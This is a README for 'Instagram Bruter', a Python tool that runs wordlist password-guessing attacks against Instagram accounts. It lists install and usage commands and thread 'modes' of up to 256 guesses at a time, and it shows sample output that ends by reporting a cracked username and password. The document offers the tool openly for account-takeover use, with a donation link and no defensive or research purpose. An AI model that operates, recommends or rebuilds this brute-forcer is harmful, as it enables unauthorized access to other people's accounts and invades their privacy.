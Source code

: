 # Instagram Bruter

[![Version](https://img.shields.io/badge/Version-v2.1.0-blue.svg)]()
[![Python](https://img.shields.io/badge/Python-v2.7--3-blue.svg)]()
[![Discord](https://img.shields.io/badge/Chat-Server-brightgreen.svg)](https://discord.gg/SMUaWmn)
<br>

### Support
**It's not easy maintaining this code, a donation of any size would be helpful**<br>

[![Donate](https://img.shields.io/badge/Paypal-Donate-orange.svg)]( https://www.paypal.me/Msheikh03)

### Requirements
- Python *v2.7.x* **|** *v3.x.x*
- ~~Kali Linux 2.0~~
- ~~TOR~~

### Install Dependencies
```
python install.py
```

### Help
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 16 bots; 1 => 8 bots; 2 => 4 bots; 3 => 2 bots
```

### Usage
```
python instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)
- 2 bots: 32 passwords at a time
- 4 bots: 64 passwords at a time
- 8 bots: 128 passwords at a time
- 16 bots: 256 passwords at a time

### Modes
- 0: 16 bots
- 1: 8 bots
- 2: 4 bots
- 3: 2 bots

### Chill mode
This mode uses only 2 bots, or 32 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 3
```

### Moderate mode 1
This mode uses 4 bots, or 64 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 2
```

### Moderate mode 2
This mode uses 8 bots, or 128 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 1
```

### Savage mode
This mode uses 16 bots, or 256 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run
```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 2
[-] Attempts: 14
[-] Browsers: 87
```

### Stop
```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Attempts: 101
[-] Browsers: 0

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
